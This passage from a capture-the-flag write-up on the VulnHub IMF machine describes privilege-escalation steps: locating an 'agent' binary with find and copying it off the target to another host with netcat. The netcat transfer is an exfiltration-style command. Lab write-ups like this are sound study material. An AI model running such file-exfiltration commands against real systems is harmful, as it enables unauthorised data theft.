 2\. We find MySQL credentials within `/var/www/html/imfadministrator/cms.php` file but those didn't seem to be correct and as such we moved on:  
```
find / -name agent 2>/dev/null
  /usr/local/bin/agent
  /etc/xinetd.d/agent
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_imf/screenshot17.png.webp)  

3\. We transfer the binary locally and start exploring it:  
```
cat /usr/local/bin/agent | base64 >agentfile
nc -nlvp 9090 >agentfile
nc 192.168.92.178 9090 <agentfile
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_imf/screenshot18.png.webp)  
